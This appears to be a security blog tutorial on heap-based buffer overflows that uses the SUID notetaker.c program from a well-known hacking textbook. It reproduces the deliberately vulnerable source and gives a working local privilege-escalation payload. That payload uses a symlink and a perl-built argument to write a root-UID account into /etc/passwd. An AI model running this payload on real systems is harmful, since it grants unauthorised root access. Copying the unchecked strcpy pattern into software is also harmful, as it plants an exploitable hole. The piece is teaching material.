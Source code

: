 #+title: Heap-based buffer overflows
#+description: todo
#+publishdate: 2023-11-19
#+options: ^:nil


* Introduction

In a previous post, I explained what a [[https://danielorihuela.github.io/posts/stack-based-buffer-overflows/][stack-based buffer overflow]] is and how it works. Today, we are going to see the heap-based variant.

* Stack vs Heap-based buffer overflows?

The difference between those two types is the region of memory where the exploited variables reside. That's easy to see in the C language. All variables are stored in the stack unless we use functions to allocate memory in the heap.

#+begin_src C
  # Variables stored in the stack
  int auth_flag = 0;
  char password_buffer[16];

  # Variables stored in the heap
  buffer = (char *)ec_malloc(100);
#+end_src

* System information

Before starting, let me mention some information about my system. Take them into account if you try to replicate the results. They may vary from machine to machine.

- Linux 5.15.0-86-generic x86_64
- Intel(R) Core(TM) i7-10510U CPU
- Little Endian
- 48 bits address size

* Exercise

We are going to exploit the ~notetaker.c~ program from *Hacking: The Art of Exploitation, 2nd Edition*. You can get the source code at https://github.com/intere/hacking/blob/master/booksrc. The program creates notes in =/var/notes=. Creating and modifying files in the root path requires root permissions. Hence, the executable of this program must be owned by the root and have the SUID activated. That way, we can execute it with normal users as if they were root.

#+begin_src C
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  #include <fcntl.h>
  #include <sys/stat.h>
  #include "hacking.h"

  void usage(char *prog_name, char *filename)
  {
    printf("Usage: %s <data to add to %s>\n", prog_name, filename);
    exit(0);
  }

  void fatal(char *);            // A function for fatal errors
  void *ec_malloc(unsigned int); // An error-checked malloc() wrapper

  int main(int argc, char *argv[])
  {
    int userid, fd; // File descriptor
    char *buffer, *datafile;

    buffer = (char *)ec_malloc(100);
    datafile = (char *)ec_malloc(20);
    strcpy(datafile, "/var/notes");

    if (argc < 2)                 // If there aren't command-line arguments,
      usage(argv[0], datafile); // display usage message and exit.

    strcpy(buffer, argv[1]); // Copy into buffer.

    printf("[DEBUG] buffer @ %p: \'%s\'\n", buffer, buffer);
    printf("[DEBUG] datafile @ %p: \'%s\'\n", datafile, datafile);

    // Opening the file
    fd = open(datafile, O_WRONLY | O_CREAT | O_APPEND, S_IRUSR | S_IWUSR);
    if (fd == -1)
      fatal("in main() while opening file");
    printf("[DEBUG] file descriptor is %d\n", fd);

    userid = getuid(); // Get the real user ID.

    // Writing data
    if (write(fd, &userid, 4) == -1) // Write user ID before note data.
      fatal("in main() while writing userid to file");
    write(fd, "\n", 1);                          // Terminate line.
    if (write(fd, buffer, strlen(buffer)) == -1) // Write note.
      fatal("in main() while writing buffer to file");

    write(fd, "\n", 1); // Terminate line.
    // Closing file
    if (close(fd) == -1)
      fatal("in main() while closing file");
    printf("Note has been saved.\n");
    free(buffer);
    free(datafile);
  }
#+end_src

The error is copying the data from ~argv[1]~ to the buffer without checking the length. We can overflow the ~buffer~ variable if we pass a long enough argument to the executable and overwrite the ~datafile~ data.

#+begin_src C
  buffer = (char *)ec_malloc(100);
  datafile = (char *)ec_malloc(20);
  strcpy(datafile, "/var/notes");

  if (argc < 2)                 // If there aren't command-line arguments,
    usage(argv[0], datafile); // display usage message and exit.

  strcpy(buffer, argv[1]); // Copy into buffer.
#+end_src

Let's compile the program and give it the proper permissions.

#+begin_src bash
  gcc notetaker.c -o notetaker -g
  sudo chown root:root notetaker
  sudo chmod u+s notetaker
#+end_src

We can write to whatever file we want, ~testfile~ for example.

[[../../images/heap-based-buffer-overflow/create-testfile.png]]

We exploited it!

* Bonus points 

The exercise is helpful but dull. We can do something more interesting when exploiting that program. We can create a new root user with any password that we want. Let me show you.

In Linux, there’s the /etc/passwd file where the basic information related to users is stored. Each entry includes the login name, hashed password, user id, group id, username, home directory and login shell of a user, separated by colons (e.g. ~root:x:0:0:root:/root:/bin/bash~). We can add a manually prepared entry to ~/etc/passwd~,  but how do we create the hashed password?

There are plenty of hashing functions. There's no constraint in linux, so we can use whichever one we want. I decided to use ~crypt~ from perl with a simple password (1234) and salt (AA).

#+begin_src bash
  perl -e 'print crypt("1234", "AA"), "\n"'
#+end_src

The result is ~AA3BKXQMdIWHE~. The entry would then look like ~newrootuser:AA3BKXQMdIWHE:0:0:root:/root:/bin/bash~. There's still another problem to solve. Remember that for the exploit to work, the final part of the argument must be the file where we want to write the data. It should be something similar to ~newrootuser:AA3BKXQMdIWHE:0:0:root:/root:/etc/passwd~. However, this is not a valid entry. The last part is no longer a shell, but a file. We can sidestep this problem with a symbolic link. That's the cool part, pay attention.

#+begin_src bash
  mkdir /tmp/etc
  ln -s /bin/bash /tmp/etc/passwd
#+end_src

We just created a symbolic link in ~/tmp/etc/passwd~ to a shell. That way, we can create a payload that ends with a login shell and the filename we want to overwrite. Pretty slick, right? We can then rewrite the entry as ~newrootuser:AA3BKXQMdIWHE:0:0:root:/root:/tmp/etc/passwd~. The last step is to make it longer to overflow the buffer.

#+begin_src bash
  ./notetaker $(perl -e 'print "newrootuser:AA3BKXQMdIWHE:0:0:", "A" x 71, ":/root:/tmp/etc/passwd"')
#+end_src

[[../../images/heap-based-buffer-overflow/root-access.png]]

* Conclusion

Exploiting heap and stack buffer overflows has the same difficulty. Everything we know about one variant can be applied to the other (as far as I know). They are easy to exploit and protect. However, software engineers should be aware of their existence and how to avoid them. There is no excuse for avoiding them in your programs!
